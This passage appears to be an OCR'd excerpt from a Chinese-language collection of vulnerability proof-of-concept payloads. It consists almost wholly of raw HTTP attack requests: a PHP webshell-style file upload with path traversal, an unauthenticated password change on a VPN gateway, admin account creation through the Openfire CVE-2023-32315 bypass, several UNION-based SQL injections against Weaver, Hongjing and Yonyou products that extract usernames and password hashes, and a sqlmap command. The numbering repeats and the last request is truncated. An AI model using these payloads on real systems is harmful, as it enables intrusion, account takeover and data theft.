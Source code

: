 POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>

58、网神 SecSSL 3600安全接入网关系统 任意密码修改漏洞

POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@

59、Openfire身份认证绕过漏洞(CVE-2023-32315)

GET /user-create.jsp?csrf=Sio3WOA89y2L9Rl&username=user1&name=&email=&password=Qwer1234&passwordConfirm=Qwer1234&isadmin=on&create=............ HTTP/1.1

59、大华智慧园区任意密码读取攻击

GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1

60、泛微 ShowDocsImagesql注入漏洞

GET
/weaver/weaver.docs.docs.ShowDocsImageServlet?docId=* HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,
like Gecko) 5bGx5rW35LmL5YWz
Accept-Encoding: gzip, deflate
Connection: close

61、宏景 HCM codesettree SQL 注入漏洞

GET
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20al
l~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,
like Gecko) 5bGx5rW35LmL5YWz
Accept-Encoding: gzip, deflate
Connection: close

61、用友时空 KSOATaskRequestServlet sql注入漏洞

/servlet/com.sksoft.v8.trans.servlet.TaskRequestServlet?unitid=1*&password=1,

62、用友时空 KSOA servletimagefield 文件 sKeyvalue 参数SQL 注入
```
GET
/servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=-1'+union+select+sys.fn_varbintohexstr(hashbytes('md5','test'))-
-+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,
like Gecko) 5bGx5rW35LmL5YWz
Accept-Encoding: gzip, deflate
Connection:
63、用友畅捷通 T注入
sqlmap -u http://xx.xx.xx.xx/WebSer~1/create_site.php?site_id=1 --is-dba
64、宏景OA文件上传
POST /w_selfservice/oauthservlet/%2e./.%2e/system/options/customreport/OfficeServer.jsp HTTP/1.1
Host: xx.xx.xx.xx
Cookie: JSESSIONID=C92F3ED039AAF958516349D0ADEE426E
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```